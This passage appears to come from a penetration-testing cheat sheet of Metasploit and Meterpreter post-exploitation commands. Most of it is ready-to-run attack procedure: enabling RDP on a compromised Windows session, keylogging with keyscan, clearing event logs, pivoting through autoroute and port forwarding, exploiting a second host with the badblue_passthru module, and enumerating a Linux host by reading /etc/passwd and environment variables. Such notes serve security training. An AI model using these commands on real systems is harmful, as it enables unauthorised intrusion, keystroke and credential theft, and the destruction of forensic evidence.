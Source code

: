```bash
set LPORT <LOCAL_PORT>

# Enabling RDP
use post/windows/manage/enable_rdp
sessions
set SESSION 1
```

```bash
# KEYLOGGING - Meterpreter
keyscan_start
keyscan_dump
keyscan_stop
```

#### CLEARING

```bash
# Meterpreter
clearenv
```

#### PIVOTING

```bash
# Meterpreter
run autoroute -s <TARGET1_SUBNET_NETWORK>

use auxiliary/scanner/portscan/tcp
set RHOSTS <TARGET2_IP>
set PORTS 1-100

# Port Forwarding
sessions 1
portfwd add -l <LOCAL_PORT> -p <TARGET2_PORT> -r <TARGET2_IP>
background
db_nmap -sS -sV -p <LOCAL_PORT> localhost
# Target2 Exploitation
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS <TARGET2_IP>
set LPORT <LOCAL_PORT2>
run
```

### Linux Post-Exploitation

```bash
# Meterpreter - 'root' user
shell

# Local machine Enumeration
/bin/bash -i
whoami
cat /etc/passwd #Users and services
groups root
cat /etc/*issue
cat /etc/*release
uname -a
uname -r

netstat -antp
ss -tnl

ps aux
env
```